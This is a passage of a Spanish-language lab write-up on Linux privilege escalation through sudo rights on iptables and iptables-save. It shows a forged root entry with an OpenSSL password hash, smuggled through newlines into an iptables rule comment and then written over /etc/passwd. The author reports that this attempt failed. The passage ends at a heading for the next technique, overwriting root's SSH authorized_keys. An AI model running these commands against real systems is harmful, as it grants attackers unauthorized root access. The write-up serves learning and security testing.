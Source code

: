 ### Overwriting /etc/passwd to Add New Root User via sudoers (iptables & iptables-save)

En el PoC del blog mencionado, se nos informa que disponiendo de ambos permisos de `sudoers`, podemos intentar sobreescribir el archivo `/etc/passwd` para añadir una nueva entrada de un nuevo usuario `root` con una contraseña asignada por nosotros mismos.

En este caso, lo que realizaremos es copiar la entrada de nuestro `/etc/passwd` para tener la estructura de lo que deberemos añadir en el archivo de la máquina víctima.

Una vez tengamos la entrada de plantilla, lo que deberemos realizar es crear una contraseña en el formato de `OpenSSL`. Deberemos de reemplazar el valor `x` por el de la contreaseña generada, para lograr obtener el siguiente resultado --> _root:$1$Gow86CXS$sHAPSqpiT4xePLCPO147m1:0:0:root:/root:/bin/bash_

```bash
❯ catnp /etc/passwd | head -n 1
root:x:0:0:root:/root:/usr/bin/zsh

❯ openssl passwd Gzzcoo123
$1$Gow86CXS$sHAPSqpiT4xePLCPO147m1
```

Inyectaremos la entrada `root`falsificada en un nuevo comentario de regla de iptables, verificaremos que se encuentra añadida esta línea en las reglas de iptables y procederemos a sobreescribir el archivo `/etc/passwd` para añadir esta nueva entrada del usuario `root`.

En este caso, por x motivos no logramos sobreescribir el archivo mencionado, nos indica que la operación no está permitida.

```bash
sudo /usr/sbin/iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\nroot:$1$Gow86CXS$sHAPSqpiT4xePLCPO147m1:0:0:root:/root:/bin/bash\n'

sudo /usr/sbin/iptables -S

sudo /usr/sbin/iptables-save -f /etc/passwd
```

<figure><img src="../../.gitbook/assets/imagen (210).png" alt=""><figcaption></figcaption></figure>

### **Overwriting /root/.ssh/authorized\_keys to Upload Our Public SSH Key via sudoers (iptables & iptables-save)**

